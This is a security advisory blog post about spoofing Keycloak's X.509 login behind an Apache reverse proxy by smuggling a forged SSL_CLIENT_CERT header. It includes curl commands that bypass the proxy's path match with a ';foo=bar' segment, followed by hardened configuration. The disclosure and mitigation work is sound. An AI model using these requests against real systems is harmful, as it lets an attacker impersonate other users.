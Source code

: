 ```yaml
---
layout: post
title:  "Keycloak behind reverse proxy with mTLS for X.509 login flow --> Possible vulnerability to bypass or spoof the X.509 credentials"
datetime: 2023-02-07 22:37:00 MET
last_modified_at: 2023-02-07 22:37:00 MET
author: 'psytester'
---
```


Smuggling HTTP headers through reverse proxies as vulnerability to spoof the Keycloak X.509 login flow.<br>
Is that possible?

Keycloak’s guideline for using [reverse proxy](https://www.keycloak.org/server/reverseproxy) as TLS termination implies that it's already highly secured with edge proxy mode because of
```
This mode is suitable for deployments with a highly secure internal network where the reverse proxy....
```
Yes, our internal network is highly secured with several DMZ, local firewalls, intrusion detection systems, blah blah blah.<br>

My attack scenario:<br>
I do not have the p12 keystore with its private key for successful mTLS handshake in reverse proxy! No chance to overcome the client certificate check!

With social engineering means I got the public certificate from my victim, because the public part is not dangerous? Or is it? 

# Basics why it will work
Based on [research found at Telekom Security](https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html) I’m using this flaw of smuggling HTTP headers through reverse proxies.

It's actually just the configuration documentation or rather the correct documentation of hardening why this flaw is possible.<br>
Just in case of a reverse proxy in front we may have an issue which leads to the possible bypass and Keycloak X.509 login spoof!

Maybe the Keycloak team will take up my suggestion to point out the vulnerability more explicitly here and how to prevent it as simple configuration task.


# Initial - a common default setup is our flaw
My setup is simply default due to example documentation found on internet for its configuration.<br>
In my case Keycloak is serving several realms and one needs to be protected by mTLS in reverse proxy and a Keycloak X.509 login flow behind.

In Keycloak's [reverse proxy configuration](https://www.keycloak.org/server/reverseproxy) page, the common default http header `SSL_CLIENT_CERT` is used as example:
```
bin/kc.[sh|bat] start --spi-x509cert-lookup-<provider>-ssl-client-cert=SSL_CLIENT_CERT \
  --spi-x509cert-lookup-apache-ssl-cert-chain-prefix=CERT_CHAIN
```

Same at [Red Hat SSO 7.6 administration guide](https://access.redhat.com/documentation/en-us/red_hat_single_sign-on/7.6/html-single/server_administration_guide/index#apache_certificate_lookup_provider) for legacy Wildfly based Keycloak
```
<property name="sslClientCert" value="SSL_CLIENT_CERT"/>
<property name="sslCertChainPrefix" value="CERT_CHAIN"/>
```

Most people will use such examples in production.

My apache httpd setup is using a common `LocationMatch /auth` for all realms and they endpoints.<br>
One realm has mTLS Client authentication enabled in apache reverse proxy for the `/auth/realms/{realmname}/protocol/openid-connect/auth` endpoint only and will set the `SSL_CLIENT_CERT` Header.<br>

Why mTLS for `/auth/realms/{realmname}/protocol/openid-connect/auth` only?<br>
If the whole realm `/auth/realms/realmname` would be mTLS protected, we would need in our applications a machine certificate to overcome the mTLS handshake too.


Apache httpd.conf
```
ProxyPass “/auth/” “http://keycloakserver:8080/auth”
ProxyPassReverse “/auth” “http://keycloakserver:8080/auth”

<LocationMatch “/auth/realms/realmname/protocol/openid-connect/auth”> 
    SSLVerifyClient require
    SSLOptions +ExportCertData +StrictRequire
    SSLVerifyDeth 3

    RequestHeader set SSL_CLIENT_CERT "%{SSL_CLIENT_CERT}s"
    RequestHeader set CERT_CHAIN_0 "%{SSL_CLIENT_CERT_CHAIN_0}s"

    Header set Cache-Control …
</LocationMatch>

<LocationMatch “/auth”>
    Header set Cache-Control …
</LocationMatch> 
```

# The attack chain
1. Obtain the public certificate from victim<br>
or in worst case if certificate revalidation is not activated in Keycloak X.509 flow create any ordinary self signed certificate that spoofs the user account. 

2. Obtain valid oid `/auth` endpoint url by calling the webservice which will redirect us to Keycloak oid `/auth` endpoint 
```
curl --path-as-is 'https://mydomain/'
```


3. Inject the public certificate as HTTP header and bypass the location match by inserting `;foo=bar` into the oid `/auth` endpoint 
```
curl --path-as-is 'https://mydomain/auth/realms/realmname/protocol/openid-connect;foo=bar/auth ' \
    -H 'SSL_CLIENT_CERT: -----BEGIN CERTIFICATE----- PEM Base64 encoded certificate -----END CERTIFICATE-----'
```

Jackpot! :-) <br>
In case of apache as reverse proxy I got it. I did not check with nginx, but I belive it could be possible, too according to [research at Telekom Security](https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html).<br>
Hello container image world, your ingress is just a nginx… ;-)

# Mitigations?
First, my explicit advice that out of the common header names should be used.<br>
And those mitigations and they combination should be done.

1. Usage of out of the common header names, hard to guess

In reverse proxy
```
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT "%{SSL_CLIENT_CERT}s"
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN_0 "%{SSL_CLIENT_CERT_CHAIN_0}s"
```

In Keycloak
```
bin/kc.[sh|bat] start --spi-x509cert-lookup-apache-ssl-client-cert=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT \
  --spi-x509cert-lookup-apache-ssl-cert-chain-prefix=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN
```

2. The apache configuration should contain an initial set header empty value or unset header
```
# initialize the special headers to be blank for all other LocationMatch as common place to avoid http header forgeries
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT ""
RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN ""
```
3. Mandatory usage of trust store and certificate chain revalidation in Keycloak, otherwise a self-signed certificate with spoofed login data is usable. That’s the worst case.

4. CRL check in Keycloak, too. Revoked certificates should be declined in Keycloak, too. Not only at reverse proxy at mTLS handshake.

# My final mitigation setup
In Keycloak
```
bin/kc.[sh|bat] start --spi-x509cert-lookup-apache-ssl-client-cert=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT \
  --spi-x509cert-lookup-apache-ssl-cert-chain-prefix=SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN
```

Apache httpd.conf
```
ProxyPass http://keycloakserver:8080/auth
ProxyPassReverse  http://keycloakserver:8080/auth

<LocationMatch “/auth/realms/realmname/protocol/openid-connect/auth”> 
    SSLVerifyClient require
    SSLOptions +ExportCertData +StrictRequire
    SSLVerifyDeth 3

    # Usage of out of the common header names
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT "%{SSL_CLIENT_CERT}s"
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN_0 "%{SSL_CLIENT_CERT_CHAIN_0}s"

    Header set Cache-Control …
</LocationMatch>

<LocationMatch /auth>
    # initialize/override the special headers to be blank
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT ""
    RequestHeader set SECRET_HEADER_NAME_FOR_SSL_CLIENT_CERT_CHAIN_0 ""

    Header set Cache-Control …
</LocationMatch>
```
Is it enough at <LocationMatch /auth> or better global? ;-)<br>
What about that URL bypass?<br>
```https://mydomain/;foo=bar/auth/realms/realmname/protocol/openid-connect/auth```


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2023 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

